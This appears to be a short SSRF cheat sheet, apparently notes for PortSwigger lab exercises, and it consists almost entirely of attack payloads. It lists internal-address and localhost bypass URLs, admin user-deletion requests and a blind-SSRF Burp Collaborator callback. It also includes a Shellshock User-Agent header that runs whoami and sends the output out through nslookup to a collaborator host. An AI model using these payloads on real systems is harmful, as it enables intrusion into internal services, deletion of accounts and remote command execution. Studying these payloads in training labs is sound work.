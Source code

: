 # Server-Side Request Forgery - SSRF
> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## SSRF Blind
Change every param to: http://subdomain.burpcollaborator.net

## SSRF Reflected
-http://
-http://$domain - http://subdomain.$domain
-http://192.168
-http://127

## PORTSWIGGER
1)search stockApi=http://localhost/admin/delete?username=carlos
2)http://192.168.§0§.§1§:8080/admin
3)http://127.0.0.1/ - http://127.1/ - http://127.1/admin - http://127.1/%2561dmin
4)http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
5)/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
6)User-Agent: () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net + Referrer: http://192.168.§0§.§1§:8080,443,80
